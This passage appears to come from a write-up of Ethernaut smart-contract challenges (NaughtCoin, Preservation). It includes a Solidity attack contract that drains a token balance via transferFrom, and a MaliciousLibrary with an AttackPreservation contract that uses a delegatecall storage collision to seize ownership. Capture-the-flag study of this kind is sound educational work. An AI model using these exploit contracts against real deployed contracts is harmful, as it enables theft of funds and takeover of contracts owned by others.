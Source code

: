 ```solidity
    function attack() public {
        //beforehand, call NaughtCoin's approve(spender, amount) from msg.sender (the token holder)
        //where spender is this attack contract, giving this contract permission to transfer out the player's tokens
        uint256 maxTokens = nc.balanceOf(msg.sender);        
        nc.transferFrom(msg.sender, 0xA36f37e54180d59A9eC172d0f4A5F6c5Ba4F04A3, maxTokens);        
    }
}
```
****

# Preservation

The key is to notice that the storage variables layout between `Library Contract` and `Preservation` did not match, and `timeZone1Library` and `timeZone2Library` are both instances of `LibraryContract`. This is an issue since `timeZone1Library` executes a `delegatecall` within `setFirstTime()`, which allows `Preservation` storage variables to be modified using the code of `LibraryContract`. 
- Calling `setFirstTime()` supposedly sets `storedTime`. However, because `delegatecall` modifies the caller contract's storage, `setFirstTime()` actually sets `timeZone1Library` since it is the first storage variable (as `storedTime` is also the first variable in storage in its corresponding environment). Hence, we can point `timeZone1Library` to our own `MaliciousLibrary` instance     
- Call the challenge contract's `setFirstTime()` again, using any parameter (I chose 0), which we can use to set `owner=tx.origin`, again since `delegatecall` allows us to modify the `Preservation` contract's storage

```solidity
pragma solidity ^0.8.10;

contract MaliciousLibrary {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner; 

    function setTime(uint) public {
        owner=tx.origin;
    }
}

interface IPreservation {    
    function owner() external returns(address);
    function setFirstTime(uint _timeStamp) external;     
}

contract AttackPreservation {
    address public victim;
    IPreservation public p;    
    MaliciousLibrary public m;

    constructor(address _victim) { 
        victim = _victim;   
        m = new MaliciousLibrary();                        
        p = IPreservation(victim);
        p.setFirstTime(uint256(uint160(address(m))));
        p.setFirstTime(0);
    }
}
```
****
# Recovery
